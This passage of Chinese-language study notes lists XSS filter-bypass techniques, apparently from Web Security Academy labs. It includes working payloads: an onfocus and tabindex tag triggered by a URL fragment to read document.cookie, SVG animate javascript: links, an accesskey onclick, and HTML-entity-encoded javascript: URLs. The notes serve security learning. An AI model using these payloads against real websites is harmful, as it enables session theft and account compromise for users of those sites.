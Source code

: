 ### 11、自定义标签绕过WAF:

如果支持，自定义标签custom tags，并且waf是黑名单，就可以绕过

### 12、hash + onfocus + `tabindex` 实现自触发

```
<xss id="x" onfocus="alert(document.cookie)" tabindex="1">
```

那么将url发给受害者，并且后面加上**#x**，就会自动触发focus事件

```
https://0a44006e04c0b84b837d8714009e009b.web-security-academy.net/?search=%3Cxss+id%3D%22x%22+onfocus%3D%22alert%28document.cookie%29%22+tabindex%3D%221%22%3E#x
```

### 13、SVG标签配合其他标签实现XSS

```
<svg><animatetransform onbegin=alert(1)>
```

如果标签的所有事件都被WAF阻止：使用herf伪协议

```html
<svg>
  <a>
    <animate 
      attributeName="href" 
      values="javascript:alert(1)" 
    />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```

### 14、Link的accesskey支持onclick事件

accesskey属性是用于定义快捷键触发事件的：

```
<link rel="canonical" href="" accesskey="x" onclick="alert(1)"> //必须要按alt + shift +x(win)，才能触发
```

### 15、HTML实体化编码 -> 转义绕过

首先的确定：哪些地方可以进行实体化编码，浏览器会自动解码

如何发现被转义是出现在：

```
<不能 不能html解码="可以">可以</不能> 
<script>不能</script>
例：
<A hRef="javascript:alert('http://')">asdsad</a>
其中:
javascript:alert('http://') 整个html编码都可以 都会自动解码
```
